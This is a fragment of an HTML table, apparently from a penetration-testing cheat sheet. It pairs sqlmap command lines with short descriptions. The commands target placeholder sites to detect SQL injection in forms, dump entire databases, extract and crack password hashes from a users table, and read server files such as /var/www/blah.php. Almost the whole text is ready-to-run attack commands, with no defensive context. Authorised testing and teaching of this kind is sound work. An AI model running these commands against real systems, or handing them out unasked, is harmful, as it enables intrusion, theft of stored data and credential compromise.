 <tbody>
<tr>
<td>sqlmap -u http://meh.com –forms –batch –crawl=10<br>
–cookie=jsessionid=54321 –level=5 –risk=3</td>
<td>Automated sqlmap scan</td>
</tr>
<tr>
<td>sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE<br>
–level=3 –current-user –current-db –passwords<br>
–file-read=”/var/www/blah.php”</td>
<td>Targeted sqlmap scan</td>
</tr>
<tr>
<td>sqlmap -u “http://meh.com/meh.php?id=1”<br>
–dbms=mysql –tech=U –random-agent –dump</td>
<td>Scan url for union + error based injection with mysql backend<br>
and use a random user agent + database dump</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh.com/form/” –forms</td>
<td>sqlmap check form for injection</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh/vuln-form” –forms<br>
-D database-name -T users –dump</td>
<td>sqlmap dump and crack hashes for table users on database-name.</td>
</tr>
</tbody>
</table>
